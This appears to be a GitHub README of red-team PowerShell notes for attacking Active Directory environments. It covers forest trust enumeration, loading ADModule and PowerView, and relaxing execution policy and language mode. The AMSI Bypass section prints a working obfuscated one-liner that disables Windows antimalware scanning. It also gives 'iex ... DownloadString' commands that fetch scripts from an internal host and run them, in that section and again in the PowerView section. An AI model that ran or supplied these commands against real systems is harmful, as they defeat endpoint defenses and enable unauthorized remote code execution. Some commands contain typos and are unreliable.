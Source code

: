 # Powershell-Stuff

&nbsp; Powershell stuff  

&nbsp;  

## Domain Forest Trust enumeration using .NET classes

1. Run as a domain member on the workstation  

2. To get information regarding forest for the current domain:  
`[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()`  
&nbsp;&nbsp;&nbsp;&nbsp;- *'GlobalCatalogs' can be appended to get global catalog*  
&nbsp;&nbsp;&nbsp;&nbsp;- *'Forest' can be replaced with 'Domain' to get domain info*  
&nbsp;&nbsp;&nbsp;&nbsp;- *The previous replacement and appending 'GetAllTrustRelationships()' gives trust relaitonship info for the domain*  

3. Declaring / setting the vbl $ForestRootDomain:  
`$ForestRootDomain = '<>'`  

4. To get information regarding forest for the current domain:  
`([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', $ForestRootDomain)))).GetAllTrustRelationships()`

&nbsp;  

## AMSI Bypass

1. Source 1: [reigningshells/powershell-bypasses.ps1](https://gist.github.com/reigningshells/a255fcca07465befbcbf4be9cdf67560)  
&nbsp;&nbsp;&nbsp;&nbsp;- *This bypass works*  

2. Test that `amsiinitfailed`, `amsiutils`, `invoke-mimikatz`, etc returns that it isn't the name of a cmdlet, function, etc  

3. Test BURNED bypass: ``sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]("{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )``  
&nbsp;&nbsp;&nbsp;&nbsp;- *It should have no return output*  

4. Right way to bypass: `iex (New-Object New.WebClient).DownloadString("https://10.0.0.7/amsi/bypass.ps1")`  

5. Source 2: [S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)  

6. Source 3: [0gtweet - powershell.exe params](https://twitter.com/0gtweet/status/1281103918693482496)

&nbsp;  

## TLS version

1. To enumerate 'systemdefault' to see what's supported:  
`[enum]::getvalues('net.securityprotocoltype')`  

2. To set to TLS1.2 (or greater):  
`[Net.ServicePointmanager]::SecurityProtocol = 'Tls12'`  
&nbsp;&nbsp;&nbsp;&nbsp;- *can replace 'Tls12' with a greater version*  

&nbsp;  

## ADModule

1. Clone or download ADModule: [samratashok/ADModule](https://github.com/samratashok/ADModule)  
&nbsp;&nbsp;&nbsp;&nbsp;- *can also just download the 2 needed files*  

2. `Import-Module \<absolute or relative path>\Microsoft.ActiveDirectory.Management.dll -Verbose`  

3. `Import-Module \<absolute or relative path>\ActiveDirectory\ActiveDirectory.psd1 -Verbose`  
&nbsp;&nbsp;&nbsp;&nbsp;- *If the execution policy fails, do `Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted` and then do step 2 onward*  
&nbsp;&nbsp;&nbsp;&nbsp;- *Can also do `Unblock-File <file_path>`*  

4. `Get-Command -Module ActiveDirectory` *won't work* and `Get-ADDomain` *will work*  
&nbsp;  
5. `iwr -Uri "https://github.com/samratashok/admodule/archive/master.zip" -Outfile ADModule.zip` or download zip  

6. `Expand-archive .\ADModule.zip`  

7. `cd .\ADModule-master\ActiveDirectory`  

8. `Import-Module .\ActiveDirectory.psd1`  

9. `Get-Command -Module ActiveDirectory` should work now  

&nbsp;  

## Execution Policy and Execution Context  

1. `Get-ExecutionPolicy -list`  
&nbsp;&nbsp;&nbsp;&nbsp;- *make sure only unrestricted for CurrentUser and LocalMachine*
&nbsp;&nbsp;&nbsp;&nbsp;- *`Set-ExecutionPolicy -Scope <scope_name> -ExecutionPolicy Unrestricted` where <scope_name> can be CurrentUser or LocalMachine*
&nbsp;&nbsp;&nbsp;&nbsp;- *Source: [ways to bypass powershell execution policy](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/)*

2. `$ExecutionContext.SessionState`  
&nbsp;&nbsp;&nbsp;&nbsp;- *Make sure LanguageMode is FullLanguage or do `-set $ExecutionContext.SessionState.LanguageMode = "FullLanguage"`*  

&nbsp;  

## Get PowerView  

1. New PowerView: [PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)  
&nbsp;&nbsp;&nbsp;&nbsp;- *Download zip, or git clone, or copy/paste in `notepad.exe PowerView.ps1` or by `iwr -Uri "https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon/PowerView.ps1" -Outfile PowerView.ps1`*  
&nbsp;&nbsp;&nbsp;&nbsp;- *Right way to download: `iex (New-Object New.WebClient).DownloadString("https:10.0.0.7/powersploit/PowerSploit-master/Recon/PowerView.ps1")`*  

2. `Import-Module .\PowerView.ps1`  

&nbsp;  

## PowerView  

1. Using PowerView tips: [HarmJ0y/Cheatsheets](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf) and [BSidesCharm-PowershellSecurity](https://adsecurity.org/wp-content/uploads/2016/05/BSidesCharm-2016-PowerShellSecurity-Defending-the-Enterprise-from-the-Latest-Attack-Platform-FINAL.pdf)

&nbsp;  

## 

1. 

&nbsp;  
